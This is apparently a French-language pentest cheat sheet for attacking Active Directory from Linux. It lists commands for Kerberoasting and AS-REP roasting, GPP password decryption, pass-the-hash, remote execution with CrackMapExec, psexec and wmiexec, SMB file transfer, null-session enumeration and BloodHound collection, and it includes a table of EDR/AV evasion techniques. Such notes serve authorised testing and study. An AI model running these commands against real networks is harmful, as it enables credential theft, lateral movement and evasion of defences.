

L'énumération et l'exploitation d'un environnement Active Directory depuis un hôte Linux reposent sur une chaîne d'outils standardisés permettant d'interagir avec les protocoles SMB, RPC, LDAP et Kerberos.



## Énumération DNS (Zone transfer, SRV records)
L'énumération DNS est cruciale pour identifier les contrôleurs de domaine (DC) et les services associés.

```bash
# Transfert de zone (si autorisé)
dig axfr @<IP_DC> <DOMAIN>

# Recherche des enregistrements SRV pour identifier les DC
dig SRV _ldap._tcp.dc._msdcs.<DOMAIN> @<IP_DC>
```

## Enumération LDAP sans authentification (si autorisée)
Si le contrôleur de domaine autorise les requêtes anonymes, il est possible d'extraire des informations sur le domaine sans compte valide.

```bash
# Utilisation de ldapsearch pour énumérer les objets du domaine
ldapsearch -h <IP_DC> -x -b "DC=<DOMAIN_PART1>,DC=<DOMAIN_PART2>"
```

## Attaques Kerberos (AS-REP Roasting, Kerberoasting)
Ces attaques exploitent les mécanismes d'authentification Kerberos pour extraire des hashs de mots de passe hors-ligne. Voir les notes liées : [[AS-REP Roasting]], [[Kerberoasting]].

```bash
# AS-REP Roasting : Récupérer les hashs des utilisateurs sans pré-authentification Kerberos
GetNPUsers.py <DOMAIN>/ -usersfile users.txt -format hashcat -outputfile asrep.txt -dc-ip <IP_DC>

# Kerberoasting : Extraire les tickets de service (TGS) pour les comptes avec un SPN
GetUserSPNs.py <DOMAIN>/<USER>:<PASS> -dc-ip <IP_DC> -request -outputfile kerberoast.txt
```

## Analyse de GPO
L'analyse des GPO permet de découvrir des mots de passe stockés (Group Policy Preferences) ou des configurations de sécurité faibles.

```bash
# Utilisation de gpp-decrypt pour les mots de passe stockés dans les fichiers XML
gpp-decrypt <Cpassword_string>

# Énumération des GPO via Impacket
lookupsid.py <DOMAIN>/<USER>:<PASS>@<IP_DC>
```

## Techniques d'évasion (EDR/AV)
Pour contourner les protections, il est nécessaire de minimiser les traces sur le disque et d'utiliser des méthodes d'exécution moins bruyantes.

| Technique | Description |
| :--- | :--- |
| **Living off the Land** | Utiliser les outils natifs Windows (certutil, powershell) via Impacket |
| **Proxying** | Utiliser des tunnels (SOCKS) pour masquer l'origine des requêtes |
| **Obfuscation** | Modifier les signatures des outils pour éviter la détection statique |

## CrackMapExec

### Installation et aide
```bash
pip install crackmapexec
crackmapexec -h
crackmapexec smb -h
```

### Authentification
```bash
crackmapexec smb <IP_ou_CIDR> -u <USER> -p <PASS> -d <DOMAIN>
crackmapexec smb <IP_ou_CIDR> -u <USER> -H <NT_HASH>
```

### Énumération
```bash
# Liste des utilisateurs
crackmapexec smb <IP_DC> -u <USER> -p <PASS> --users

# Liste des groupes
crackmapexec smb <IP_DC> -u <USER> -p <PASS> --groups

# Liste des sessions actives
crackmapexec smb <IP_hôte> -u <USER> -p <PASS> --loggedon-users
```

### Partages SMB
```bash
# Lister les partages
crackmapexec smb <IP_hôte> -u <USER> -p <PASS> --shares

# Exploration de contenu
crackmapexec smb <IP_hôte> -u <USER> -p <PASS> -M spider_plus --share "<Nom_du_partage>"
```

### Exécution de commandes
```bash
crackmapexec smb <IP_hôte> -u <USER> -p <PASS> --exec-method wmiexec -x "whoami"
```

> [!warning] Risque de blocage de compte
> L'utilisation intensive de mots de passe sur un domaine peut entraîner le verrouillage des comptes si une politique de verrouillage est active.

> [!info] Différence entre psexec et wmiexec
> **psexec** déploie un service et s'exécute avec des privilèges **SYSTEM**, tandis que **wmiexec** utilise WMI et s'exécute dans le contexte de l'utilisateur authentifié.

## SMBMap

### Énumération des partages
```bash
smbmap -H <IP_hôte> -u <USER> -p <PASS> -d <DOMAIN>
```

### Listing récursif
```bash
smbmap -H <IP_hôte> -u <USER> -p <PASS> -d <DOMAIN> -R "NomDuPartage" --dir-only
```

### Transfert de fichiers
```bash
# Téléchargement
smbmap -H <IP_hôte> -u <USER> -p <PASS> -d <DOMAIN> --download "Chemin_Fichier"

# Upload
smbmap -H <IP_hôte> -u <USER> -p <PASS> -d <DOMAIN> --upload <fichier_local> <chemin_distant>
```

## rpcclient

### Connexion
```bash
# Null session
rpcclient -U "" -N <IP_DC>

# Authentifiée
rpcclient -U "<USER>%<PASS>" <IP_DC>
```

> [!tip] Utilisation des Null Sessions
> Les **Null Sessions** permettent parfois d'énumérer des informations sur le domaine sans identifiants valides si le paramètre **RestrictAnonymous** est mal configuré sur le contrôleur de domaine.

### Commandes interactives
```bash
rpcclient $> enumdomusers
rpcclient $> queryuser <RID>
```

## Impacket

### psexec.py
```bash
psexec.py <DOMAIN>/<USER>:<PASS>@<IP_hôte>
psexec.py <DOMAIN>/<USER>@<IP_hôte> -hashes <LM_HASH>:<NT_HASH>
```

### wmiexec.py
```bash
wmiexec.py <DOMAIN>/<USER>:<PASS>@<IP_hôte>
wmiexec.py <DOMAIN>/<USER>@<IP_hôte> -hashes <LM_HASH>:<NT_HASH>
```

## Windapsearch

### Énumération LDAP
```bash
# Utilisateurs
windapsearch.py -u <USER>@<DOMAIN> -p <PASS> --users --dc-ip <IP_DC>

# Groupes
windapsearch.py -u <USER>@<DOMAIN> -p <PASS> --groups --dc-ip <IP_DC>

# Domain Admins
windapsearch.py -u <USER>@<DOMAIN> -p <PASS> --da --dc-ip <IP_DC>
```

## BloodHound.py

### Collecte
```bash
bloodhound-python -u <USER> -p <PASS> -d <DOMAIN> -ns <IP_DC> -c all
```

> [!danger] Attention au bruit généré
> L'exécution de **BloodHound** génère un volume important de requêtes LDAP et SMB, ce qui peut être détecté par les solutions de surveillance réseau ou les EDR.

### Analyse
```bash
sudo neo4j start
bloodhound
```

> [!note] Nécessité d'une base Neo4j
> L'interface **BloodHound** nécessite une instance **Neo4j** locale pour stocker et traiter les relations extraites des fichiers JSON.

## Liens associés
- [[Active Directory Enumeration]]
- [[Kerberoasting]]
- [[AS-REP Roasting]]
- [[Lateral Movement via SMB]]
- [[DCSync Attack]]